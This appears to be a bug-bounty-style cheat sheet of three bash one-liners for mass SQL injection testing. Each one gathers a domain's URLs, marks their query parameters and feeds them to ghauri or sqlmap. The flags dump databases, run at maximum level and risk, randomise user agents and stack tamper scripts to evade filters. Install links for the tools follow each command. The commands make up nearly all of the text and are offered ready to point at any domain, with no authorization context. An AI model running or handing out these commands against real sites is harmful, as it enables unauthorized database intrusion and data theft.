 ### SQLi All
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;ghauri -m sqli.txt --random-agent --confirm --force-ssl --level=3 --dbs --dump --batch
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/r0oth3x49/ghauri" target="_blank">ghauri</a></p>

### Blind SQLi
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;sqlmap -m sqli.txt --technique=BT --level=5 --risk=3 --tamper=space2comment,sleep2getlock,space2randomblank,between,randomcase,randomcomments,bluecoat,ifnull2ifisnull --batch --random-agent --no-cast --current-db --hostname
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/sqlmapproject/sqlmap" target="_blank">sqlmap</a></p>

### Time Based SQLi
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;sqlmap -m sqli.txt --technique=T --level=5 --risk=3 --tamper=space2comment,space2plus,space2randomblank,space2morehash,between,randomcase,charencode,symboliclogical --batch --random-agent --no-cast --time-sec=10 --current-db --count
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/sqlmapproject/sqlmap" target="_blank">sqlmap</a></p>
